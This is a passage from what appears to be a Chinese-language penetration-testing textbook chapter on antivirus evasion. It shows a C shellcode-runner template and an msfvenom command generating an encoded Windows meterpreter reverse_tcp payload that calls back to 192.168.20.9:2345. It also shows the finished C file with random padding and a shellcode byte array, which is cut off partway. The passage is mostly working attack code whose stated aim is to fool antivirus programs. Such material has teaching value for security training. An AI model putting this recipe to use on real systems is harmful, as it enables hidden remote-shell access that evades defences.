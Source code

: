 ```
#include <stdio.h>
unsigned char random[]= ❶

unsigned char shellcode[]= ❷

int main(void) ❸
{
        ((void (*)())shellcode)();
}
```

我们需要为`random`❶和`shellcode`❷变量填充数据，这两个变量都是无符号字符数组。我们的目标是，通过添加一些随机性并编译我们自己的 C 代码，足以欺骗防病毒程序。`random`变量将为模板引入一些随机性。`shellcode`变量将保存我们使用 Msfvenom 创建的有效负载的原始十六进制字节。`main`函数❸将在我们编译的 C 程序启动时运行，并执行我们的 shellcode。

像往常一样在 Msfvenom 中创建有效负载，但这次使用`-f`标志将格式设置为`c`，如示例 12-6 所示。这将生成我们可以放入 C 文件中的十六进制字节。

示例 12-6. 创建 C 格式的原始有效负载

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -f c -e x86/shikata_ga_nai -i 5**
unsigned char buf[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
--*snip*--
"\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6"
"\x85\xf6\x75\xec\xc3";
```

最后，我们需要加入一些随机性。在 Linux 系统中，找到随机性的好地方是*/dev/urandom*文件。这个文件是专门设计为伪随机数生成器，利用 Linux 系统中的熵来生成数据。

但是，如果我们仅仅使用`cat`命令输出*/dev/urandom*的数据，我们会得到大量不可打印的字符。为了获得适合字符数组的数据，我们将使用 Linux 的`tr`工具将*/dev/urandom*的数据转换为可打印字符。使用`tr -dc A-Z-a-z-0-9`，然后将命令传递给`head`命令，以仅输出来自*/dev/urandom*的前 512 个字符，如下所示。

```
root@kali:~# **cat /dev/urandom | tr -dc A-Z-a-z-0-9 | head -c512**
s0UULfhmiQGCUMqUd4e51CZKrvsyIcLy3EyVhfIVSecs8xV-JwHYlDgfiCD1UEmZZ2Eb6G0no4qjUIIsSgneqT23nCfbh3keRfuHEBPWlow5zX0fg3TKASYE4adL
--*snip*--
```

现在将来自*/dev/urandom*的数据放入 C 文件中的`random`变量。完成的文件请参见示例 12-7。（当然，你的随机数据和编码的有效负载会有所不同。）确保将字符串用引号括起来，并在末尾加上分号(`;`)。

示例 12-7. 完成的自定义 C 文件

```
#include <stdio.h>
unsigned char random[]= "s0UULfhmiQGCUMqUd4e51CZKrvsyIcLy3EyVhfIVSecs8xV-JwHYlDgfiCD1UEmZZ2Eb6G0no4qjUIIsSgneqT23nCfbh3keRfuHEBPWlow5zX0fg3TKASYE4adLqB-3X7MCSL9SuqlChqT6zQkoZNvi9YEWq4ec8
-ajdsJW7s-yZOKHQXMTY0iuawscx57e7Xds15GA6rGObF4R6oILRwCwJnEa-4vrtCMYnZiBytqtrrHkTeNohU4gXcVIem
-lgM-BgMREf24-rcW4zTi-Zkutp7U4djgWNi7k7ULkikDIKK-AQXDp2W3Pug02hGMdP6sxfR0xZZMQFwEF-apQwMlog4Trf5RTHFtrQP8yismYtKby15f9oTmjauKxTQoJzJD96sA-7PMAGswqRjCQ3htuWTSCPleODITY3Xyb1oPD5wt-G1oWvavrpeweLERRN5ZJiPEpEPRTI62OB9mIsxex3omyj10bEha43vkerbN0CpTyernsK1csdLmHRyca";

unsigned char shellcode[]= "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01"
"\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50"
```